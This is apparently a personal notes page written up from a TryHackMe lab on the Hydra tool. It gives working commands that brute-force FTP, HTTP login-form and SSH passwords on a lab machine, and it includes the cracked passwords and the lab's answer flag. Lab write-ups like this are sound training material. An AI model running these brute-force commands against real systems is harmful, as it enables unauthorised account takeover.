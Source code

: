 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T19:47:48.898-05:00"}
---
```


Testing 123

Trying this out again 



# Task 2 - Using Hydra

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`


| Testing | 1   |
| ------ | --- |
| 5      | 4   |
| 6      | 3   |


| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| path              | the login page URL, for example, login.php                                             |
| login_credentials | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| invalid_response  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |



> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

Checking the page source tells us that its using a "POST" method as the request type

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.


Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```


Then SSH'd into molly's machine to get the flag using the password, butterfly.


> [!Success] Answer
> `THM {c8eeb0468febbadea859baeb33b2541b}`

